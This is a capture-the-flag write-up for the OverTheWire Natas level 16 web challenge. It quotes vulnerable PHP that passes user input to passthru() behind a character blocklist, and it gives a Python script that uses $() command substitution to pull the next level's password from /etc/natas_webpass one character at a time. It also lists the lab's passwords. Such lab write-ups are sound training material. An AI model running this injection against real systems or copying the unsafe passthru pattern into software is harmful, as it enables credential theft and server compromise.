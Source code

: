 <h2>🔰 Level - 16</h2>

- username - natas16
- password - TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

	There was an input field, where we can enter a word, and the output will display all the occurences of that word within the file called "dictionary.txt". <br>

	There was a similar challenge before, but here, the key is added to grep with explicit quotes (`grep -i "<keyword> dictionary.txt`). Also now characters `;`,`"`,`'`,`|`, `&`, and backticks are filtered. <br>

	```php
	<?
	$key = "";

	if(array_key_exists("needle", $_REQUEST)) {
	    $key = $_REQUEST["needle"];
	}

	if($key != "") {
	    if(preg_match('/[;|&`\'"]/',$key)) {
	        print "Input contains an illegal character!";
	    } else {
	        passthru("grep -i \"$key\" dictionary.txt");
	    }
	}
	?>
	```

	Since a command is being executed, I figured it's got something to do with injection code remotely. On searching different ways to inject command within another command, found that we can use `$()` to execute a command and replace the current value with the output of that command. <br>
	That is, I could do `grep -i ($ls) dictionary.txt` and its valid. But the thing is, due to explicit double quotes, it only checks whether the output of internal command is present in dictionary.txt or not. Our password is not in dictionary.txt. So can't directly cat out the password. <br>

	Instead of doing `cat`, tried `grep`. That way, I could check character by character in the password. If character is present in password, then it greps the whole password and replaces the `$key` in outer grep with the password. This inturn returns nothing as output since password is not in dictionary.txt. If character is not present, then `$key` value becomes empty string. So outer grep will print out all strings in dictionary.txt. <br>

	So to check if a character is in password or not, I just have to check if there's any output or not, on doing search with corresponding character. 

	Made a python script to do the same: 

	```python
	import requests

	url = "http://natas16.natas.labs.overthewire.org/"

	username = 'natas16'
	curr_passwd = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"

	session = requests.Session()

	character_list = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

	nxt_passwd = ''

	while (len(nxt_passwd) < 32):
		for ch in character_list:
			print(f"trying {ch}")
			data = {"needle":f'$(grep ^{nxt_passwd+ch} /etc/natas_webpass/natas17)'} # ^ checks for any line starting 																		     # with given key
			response = session.post(url, auth = (username, curr_passwd), data = data)
			if ('Africans' not in response.text):
				nxt_passwd += ch
				print(nxt_passwd)
				break

	print("\n\n\nFinal Password for Natas 17:", nxt_passwd)
	```

	On each search, script checks if "Africans" is in output. If so, corresponding character was not in password. <br>

Password for level 17 - XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd